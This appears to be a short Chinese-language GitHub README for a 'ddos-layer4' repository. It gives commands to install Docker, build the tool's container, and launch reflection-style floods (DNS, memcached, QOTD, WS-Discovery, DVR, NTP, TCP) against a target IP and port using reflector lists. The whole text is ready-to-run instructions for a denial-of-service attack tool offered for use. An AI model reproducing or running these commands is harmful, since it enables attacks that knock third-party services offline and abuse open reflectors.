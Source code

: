 ### Ubuntu Docker 安装

	curl -fsSL https://test.docker.com -o test-docker.sh && sudo sh test-docker.sh

### 安装 （docker）

	apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && rm -rf ~/ddos-layer4


### 进入容器 （docker）

	docker exec -it ddos-layer4 /bin/bash

### 使用（docker）
	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
